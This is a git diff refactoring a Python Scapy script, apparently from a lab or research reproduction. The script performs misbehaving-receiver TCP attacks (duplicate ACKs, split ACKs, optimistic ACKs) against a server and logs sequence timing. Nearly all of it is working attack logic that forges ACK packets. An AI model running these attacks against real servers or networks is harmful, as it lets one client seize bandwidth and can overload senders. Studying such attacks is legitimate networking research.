

Cleaned up copy, TODO: Fix dup, try op fix

diff --git a/transmit.py b/transmit.py
@@ -18,12 +18,13 @@ FileName = "npy/%s.npy" % sys.argv[1]
 ## For Opt attack specifically.
 MTU = 1472 # Default for TCP
 WAIT_TIME = 0.05
-currACKNo = 0
+curr_ACK = 0  # For OPT
+curr_SEQ = 0  # For OPT
+count_SEQ = 0 # For DUP
 MAX_SIZE = 200000
 
 ## Defined across all tranmission types.
 socket = conf.L2socket(iface="client-eth0")
-socket2 = conf.L2socket(iface="client-eth0")
 
 syn = IP(dst=IP_DST) / TCP(window=65535, sport=SRC_PORT, dport=DST_PORT, flags='S')
 IP_SRC = syn[IP].src
@@ -33,6 +34,7 @@ SRC_PORT = syn[TCP].sport
 syn_ack = sr1(syn)
 initialTs = syn_ack.time
 initialSeq = syn_ack[TCP].seq
+count_SEQ = initialSeq
 
 ### Sending response after SYN_ACK
 getStr = 'GET / HTTP/1.1\r\n\r\n'
@@ -41,61 +43,28 @@ request = IP(dst=IP_DST) / TCP(window=65535, dport=DST_PORT, sport=SRC_PORT,
 socket.send(Ether() / request)
 
 
+
+
 ### Global method definitions.
 ##########################################
-### Function to send ACK used in opt.
-def send_ACK():
-  global currACKNo, socket2
-  while (currACKNo - initialSeq) < MAX_SIZE:
-    currACKNo += MTU
-    ack_pkt = IP(dst=IP_DST) / TCP(window=65535, dport=DST_PORT, sport=SRC_PORT,
-               seq=our_seq_no, ack=currACKNo, flags='A')
-    socket2.send(Ether() / ack_pkt)
-
-
-### Function to check the formatting of packet.
-def check_pkt(pkt):
-  global DST_PORT, IP_DST
-  return (IP not in pkt) or (TCP not in pkt) or (pkt[IP].src != IP_DST) or (pkt[TCP].sport != DST_PORT)
-
-### Calculate length of TCP data segment.
-def data_len(pkt):
-  ip_total_len = pkt.getlayer(IP).len
-  ip_header_len = pkt.getlayer(IP).ihl * 32 / 8
-  tcp_header_len = pkt.getlayer(TCP).dataofs * 32 / 8
-  return ip_total_len - ip_header_len - tcp_header_len
-
-
-### Proper handling for packet with normal transmission.
-#########################################################
-def normal(pkt):
-  global DST_PORT, IP_DST, data, socket
-  if (check_pkt(pkt)):
-    return
-  data.append((pkt.time - initialTs, pkt[TCP].seq - initialSeq))
+### Send ACK with sequence no seq and ack num ack.
+def send_ACK(seq, ack):
   ack_pkt = IP(dst=IP_DST) / TCP(window=65535, dport=DST_PORT, sport=SRC_PORT,
-             seq=(pkt[TCP].ack), ack=(pkt[TCP].seq + data_len(pkt)), flags='A')
+             seq=seq, ack=ack, flags='A')
   socket.send(Ether() / ack_pkt)
 
+### Send ACK with normal sequence progression.
+def send_ACK_in_seq(pkt):
+  send_ACK(pkt[TCP].ack, pkt[TCP].seq + data_len(pkt))
 
 
-### Proper handling for packet with DUP attack.
-#########################################################
-def dup(pkt):
-  global DST_PORT, IP_DST, data, socket
-  if (check_pkt(pkt)):
-    return
-  data.append((pkt.time - initialTs, pkt[TCP].seq - initialSeq))
+### Function to send ACK used in opt.
+def send_ACK_opt():
+  global curr_ACK
+  while (curr_ACK - initialSeq) < MAX_SIZE:
+    curr_ACK += MTU
+    send_ACK(curr_SEQ, curr_ACK)
 
-  ack_pkt = IP(dst=IP_DST) / TCP(window=65535, dport=DST_PORT, sport=SRC_PORT,
-             seq=(pkt[TCP].ack), ack=(pkt[TCP].seq + data_len(pkt)), flags='A')
-  for i in xrange(20):
-    socket.send(Ether() / ack_pkt)
-
-
-
-### Proper handling for packet with SPLIT attack.
-#########################################################
 ## Split ACK across several packets
 def get_split_acks(pkt):
   tcp_seg_len = data_len(pkt)
@@ -108,36 +77,74 @@ def get_split_acks(pkt):
     ACK_nums.append(nextACK_num);
   return ACK_nums
 
-def split(pkt) :
-  global DST_PORT, IP_DST, data, socket
+### Append new data point.
+def append(pkt):
+  data.append((pkt.time - initialTs, pkt[TCP].seq - initialSeq))
+
+### Function to check the formatting of packet.
+def check_pkt(pkt):
+  return (IP not in pkt) or (TCP not in pkt) or (pkt[IP].src != IP_DST) or (pkt[TCP].sport != DST_PORT)
+
+### Calculate length of TCP data segment.
+def data_len(pkt):
+  ip_len = pkt.getlayer(IP).len
+  ip_head_len = pkt.getlayer(IP).ihl * 32 / 8
+  tcp_head_len = pkt.getlayer(TCP).dataofs * 32 / 8
+  return ip_len - ip_head_len - tcp_head_len
+
+
+
+
+### Proper handling for packet with normal transmission.
+#########################################################
+def normal(pkt):
   if (check_pkt(pkt)):
     return
-  data.append((pkt.time - initialTs, pkt[TCP].seq - initialSeq))
+  append(pkt)
+  send_ACK_in_seq(pkt)
+  
+
+
+
+### Proper handling for packet with DUP attack.
+#########################################################
+def dup(pkt):
+  if (check_pkt(pkt)):
+    return
+  append(pkt)
+
+  for i in xrange(10):
+    send_ACK_in_seq(pkt)
+
+
+### Proper handling for packet with SPLIT attack.
+#########################################################
+def split(pkt) :
+  if (check_pkt(pkt)):
+    return
+  append(pkt)
   
   for ACK_num in get_split_acks(pkt):
-    ack_pkt = IP(dst=IP_DST) / TCP(window=65535, dport=DST_PORT, sport=SRC_PORT,
-             seq=pkt[TCP].ack, ack=ACK_num, flags='A')
-    socket.send(Ether() / ack_pkt)
+    send_ACK(pkt[TCP].ack, ACK_num)
 
 
 ### Proper handling for OP attacks.
 #########################################################
 def op(pkt):
-  global DST_PORT, IP_DST, data, socket
   if (check_pkt(pkt)):
     return
-  data.append((pkt.time - initialTs, pkt[TCP].seq - initialSeq))
+  append(pkt)
+  # ACKs being send optimistically, not in response.
 
-
-
-### Beginning of actual script.
-#################################################
 ## Special timing stuff for op attack.
 if sys.argv[1] == 'op':
-  currACKNo = syn_ack[TCP].seq + 1
-  our_seq_no = syn_ack[TCP].ack + len(getStr) + 1
-  t = threading.Timer(WAIT_TIME, send_ACK)
+  curr_ACK = syn_ack[TCP].seq + 1
+  curr_SEQ = syn_ack[TCP].ack + len(getStr) + 1
+  t = threading.Timer(WAIT_TIME, send_ACK_opt)
   t.start()
+
+
+
 
 ### Choose proper ACK handling given attack type.
 #########################################################
